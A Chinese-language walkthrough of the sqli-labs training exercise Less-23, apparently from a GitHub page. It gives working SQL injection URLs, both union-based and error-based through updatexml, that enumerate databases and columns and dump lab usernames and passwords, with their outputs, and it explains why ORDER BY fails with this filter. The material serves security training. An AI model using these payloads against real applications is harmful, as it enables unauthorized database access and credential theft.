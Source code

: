**方法一 联合查询**

```
#查看显示位
http://192.168.1.101/sqli-labs-master/Less-23/?id=-1' union select 1,2,'3
##Your Login name:2
##Your Password:3

#各种爆
#爆库名
http://192.168.1.101/sqli-labs-master/Less-23/?id=1111' union select 1,2,group_concat(schema_name) from information_schema.schemata;%00
##Your Password:information_schema,challenges,mysql,performance_schema,security,test

#爆字段
http://192.168.1.101/sqli-labs-master/Less-23/?id=1111' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' ;%00


http://192.168.1.101/sqli-labs-master/Less-23/?id=-1' union select 1,group_concat(username),group_concat(password) from users where 1 or '1' = '
##name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
##Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```



```
此处无法使用order by进行处理判断列数。
（坑位的判断可以通过order by 或者 union 联合查询进行 ）
原因：（中英切换太麻烦用英文表达）
if we use the the order by we will not get the wrong information beacuase of the closed treatment.
for example:
1.http://192.168.1.101/sqli-labs-master/Less-23/?id=1' or '1'='1 order by 10'
2.http://192.168.1.101/sqli-labs-master/Less-23/?id=1' order by 10 or '1'='1 
the first one when it analysis by the mysql,the'1 order by 10' will becomes the  entirety which will make it lost its function beacuse of the mysql will ignore the order by.
```

**报错注入**

```
http://113.54.234.152/sqli-labs-master/Less-23/?id=1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),1)or '1'='1

#limit 一个一个修改，也可以使用concat进行拼接一次输出（可能不全）
http://113.54.234.152/sqli-labs-master/Less-23/?id=1' and updatexml(1,concat(0x7e,(select group_concat(schema_name)from information_schema.schemata)),1)or '1'='1
#XPATH syntax error: '~information_schema,challenges,m' （不全）
```





### 24
